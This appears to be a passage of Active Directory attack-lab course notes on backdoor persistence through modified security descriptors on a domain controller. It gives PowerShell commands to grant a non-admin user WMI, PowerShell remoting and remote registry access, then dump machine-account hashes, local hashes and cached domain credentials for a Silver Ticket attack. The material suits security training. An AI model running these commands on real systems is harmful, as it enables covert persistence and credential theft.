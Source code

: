 # Security Descriptors

• It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users. 

• Administrative privileges are required for this.

• It, of course, works as a very useful and impactful backdoor mechanism.

•Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and `SACL:ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`

•ACE for built-in administrators for WMI namespaces `A;CI;CCDCLCSWRPWPRCWD;;;SID`

ACLs can be modified to allow non-admin users access to securable objects.

# Security Descriptors WMI

#### On local machine for student1:
```powershell
Set-RemoteWMI -UserName student1 -Verbose
```

#### On remote machine for student1 without explicit credentials:
```powershell
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

#### On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
```powershell
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc -Credential Administrator –namespace 'root\cimv2' -Verbose
```

#### On remote machine remove permissions:
```powershell
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose
```

# Security Descriptors PowerShell Remoting

#### On local machine for student1:
```powershell
Set-RemotePSRemoting -UserName student1 -Verbose
```

#### On remote machine for student1 without credentials:
```powershell
Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc -Verbose
```

#### On remote machine, remove the permissions:
```powershell
Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc -Remove
```

# Security Descriptors Remote Registry

#### Using DAMP, with admin privs on remote machine
```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose 
```

#### As student1, retrieve machine account hash: 
```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose 
```

#### Retrieve local account hash: 
```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose 
```

#### Retrieve domain cached credentials: 
```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

# Learning Objective 13

• Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access. 

• Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI.